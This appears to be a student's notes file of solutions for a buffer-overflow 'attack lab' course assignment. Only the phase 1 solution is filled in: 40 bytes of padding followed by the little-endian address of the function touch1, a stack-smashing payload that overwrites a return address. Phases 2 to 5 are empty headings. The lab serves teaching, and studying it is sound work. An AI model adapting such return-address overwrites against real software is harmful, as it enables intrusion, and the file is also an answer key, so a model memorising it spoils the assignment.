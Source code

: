 # attack_lab

## phase 1 solution
/* 40 bytes */
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
/* address of touch1 (8 bytes) */
74 16 40 00 00 00 00 00

## phase 2 solution

## phase 3 solution

## phase 4 solution

## phase 5 solution
